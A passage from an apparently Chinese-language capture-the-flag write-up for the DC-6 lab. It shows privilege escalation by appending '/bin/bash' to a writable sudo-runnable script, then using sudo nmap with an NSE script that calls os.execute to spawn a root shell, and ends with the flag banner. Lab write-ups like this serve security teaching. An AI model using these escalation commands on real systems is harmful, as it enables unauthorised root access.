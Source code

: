 ![upload successful](https://lnng.top/images/pasted-247.png)

**upload successful**

  
发现可操作/home/jens/backups.sh，打开发现是一个解压的脚本  

![upload successful](https://lnng.top/images/pasted-248.png)

**upload successful**

  
向其中写入命令然后已jens来执行

```
echo "/bin/bash" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

![upload successful](https://lnng.top/images/pasted-249.png)

**upload successful**

发现成功切换到jens用户  
继续查看可执行的命令,发现可执行的root的nmap

```
sudo -l
```

![upload successful](https://lnng.top/images/pasted-250.png)

**upload successful**

  
所以需要nmap打开一个shell即可获得root

nmap中执行shell方法

```
echo "os.execute('/bin/bash')">/tmp/shell.nse
sudo nmap --script=/tmp/shell.nse
```

```
cat ./theflag.txt
```

成功获得flag

```
Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
